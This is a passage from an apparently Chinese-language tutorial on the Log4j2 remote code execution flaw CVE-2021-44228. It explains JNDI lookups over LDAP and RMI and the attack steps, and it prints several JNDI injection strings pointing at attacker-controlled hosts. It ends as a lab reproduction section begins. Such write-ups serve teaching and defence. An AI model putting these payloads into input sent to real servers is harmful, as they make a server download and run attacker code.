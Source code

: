 log4j2框架下的lookup查询服务提供了{}字段解析功能，传进去的值会被直接解析。例如${java:version}会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何服务（可能是攻击者部署好的恶意代码）。

**jdk将从url指定的路径下载一段字节流，并将其反序列化为Java对象，作为jndi返回。反序列化过程中，即会执行字节流中包含的程序。**

**攻击者如何控制服务器上记录的日志内容呢？**

大部分web服务程序都会对用户输入进行日志记录。例如：用户访问了哪些url，有哪些关键的输入等，都会被作为参数送到log4j中，我们在这些地方写上 ${jndi:ldap://xxx.dnslog.cn}就可以使web服务从xxx.dnslog.cn下载字节流了。

### ldap服务：

```
LDAP(轻型目录访问协议)是一个开放的，中立的，工业标准的应用协议，
通过IP协议提供访问 控制和维护分布式信息的目录信息。
```

目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈 树状结构组织数据，就好象Linux/Unix系统中的文件目录一样。

### RMI：

RMI（远程方法调用）：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。

## 三、攻击过程

log4j2 远程代码执行漏洞大致过程（此处使用RMI，LDAP同理）： 假设有一个Java程序，将用户名信息到了日志中，如下：

**a.**攻击者发送一个HTTP请求，其用户名为${jndi://rmi:服务器地址/Exploit}

**b.**被攻击服务器发现要输出的信息中有 ${}，则其中的内容要单独处理，进一步解析是JNDI扩展内容且使用的是RMI，而后根据RMI服务器地址去请求Exploit。

**c.**RMI服务器返回Reference对象（用于告诉请求端所请求对象所在的类），而该Reference指定了远端 文件下载服务器上含有恶意代码的class文件。

**d.**被攻击服务器通过Reference对象去请求文件下载服务器上的class文件。

**e.**被攻击服务器下载恶意class文件并执行其中的恶意代码。

### LDAP

当用户输入信息时，应用程序中的log4j2组件会将信息记录到日志中

**a.**假如日志中含有该语句${jndi:ldap:192.168.96.1:1099/exp}

**b.**被攻击服务器发现要输出的信息中有 ${}，log4j就会去解析该信息，通过jndi的lookup()方法去解析该URL：ldap:192.168.96.1:1099/exp

**c.**解析到ldap，就会去192.168.61.129:1099的ldap服务找名为exp的资源，如果找不到就会去http服务中找，在http中找到exp之后，就会将资源信息返回给应用程序的log4j组件，而log4j组件就会下载下来，然后发现exp是一个.class文件，就会去执行里面的代码，从而实现注入攻击者就可以通过shell实现任意的命令执行，造成严重危害

## 四、漏洞复现

**编号：CVE-2021-44228**

kali充当靶机：IP地址为：192.168.200.14

win11充当攻击机：IP地址为：192.168.200.22

### 1、漏洞环境
